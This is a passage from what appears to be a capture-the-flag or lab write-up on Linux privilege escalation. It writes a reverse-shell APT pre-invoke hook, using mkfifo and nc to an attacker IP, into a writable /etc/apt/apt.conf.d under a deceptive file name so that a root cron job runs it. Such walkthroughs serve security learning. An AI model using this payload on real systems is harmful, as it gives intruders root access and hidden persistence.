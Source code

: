 11) I'll start by digging into that writable dir `/etc/apt/apt.conf.d`. I'm thinking that's the package maanger configuration directory, maybe we can get user `root` (via that cron job) to run some code for us.

```
pwd
/etc/apt/apt.conf.d

ls
01-vendor-ubuntu
01autoremove
10periodic
15update-stamp
20apt-esm-hook.conf
20archive
20auto-upgrades
20packagekit
20snapd.conf
50command-not-found
50unattended-upgrades
70debconf
99update-notifier

cat 70debconf
// Pre-configure all packages with debconf before they are installed.
// If you don't like it, comment it out.
DPkg::Pre-Install-Pkgs {"/usr/sbin/dpkg-preconfigure --apt || true";};
```

Wonderful, looks like through these files we can configure apt to run arbitrary code before/after certain actions. I found some resources on how to write such hooks:

- https://www.cyberciti.biz/faq/debian-ubuntu-linux-hook-a-script-command-to-apt-get-upgrade-command/
- https://unix.stackexchange.com/questions/204414/how-to-run-a-command-before-download-with-apt-get

12) We set up a listener in our Kali machine (with `nc -lvnp 80`), and write a file in the current directory to set up a reverse shell:

```
echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.59 80 >/tmp/f"};' > 75nothing-to-see-here
```

We verify the file is there:

```
ls
01-vendor-ubuntu                                                                      
01autoremove                                                                          
10periodic
15update-stamp
20apt-esm-hook.conf
20archive
20auto-upgrades
20packagekit
20snapd.conf
50command-not-found
50unattended-upgrades
70debconf
75nothing-to-see-here
99update-notifier
```
